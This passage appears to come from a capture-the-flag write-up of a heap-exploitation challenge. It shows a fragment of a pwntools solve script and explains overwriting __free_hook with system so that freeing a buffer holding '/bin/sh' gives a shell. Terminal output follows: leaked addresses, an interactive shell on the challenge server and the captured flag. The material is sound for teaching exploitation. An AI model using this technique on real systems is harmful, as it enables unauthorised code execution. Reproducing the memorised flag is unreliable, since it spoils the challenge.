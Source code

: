 ```py
    p.sendlineafter(b"6. Quit", b'4')
    p.recvuntil(b"Reason for late enrollment:\n")
```

And lastly, we can easily pass in `/bin/sh` to `_free_hook` aka `system` by choosing option `1` and then option `5` where `free(reasonBuf)` was located, to call it and get the shell! 

```
┌──(kali㉿kali)-[~/Desktop/CTF/enrollment]
└─$ python solve3.py
[+] Starting local process './program_patched': pid 43251
[+] Opening connection to chal.firebird.sh on port 35042: Done
[*] '/home/kali/Desktop/CTF/enrollment/program_patched'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[*] '/home/kali/Desktop/CTF/enrollment/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
0x7f1a0ca70e48
0x7f1a0c8d4290
[*] Switching to interactive mode

Your application will be reviewed and processed, bye
$ ls
enrollment_simulator
flag.txt
$ cat flag.txt
flag{C0MPZ633_15_aN_aMA21Ng_c0ur53_uwu}$ 
```
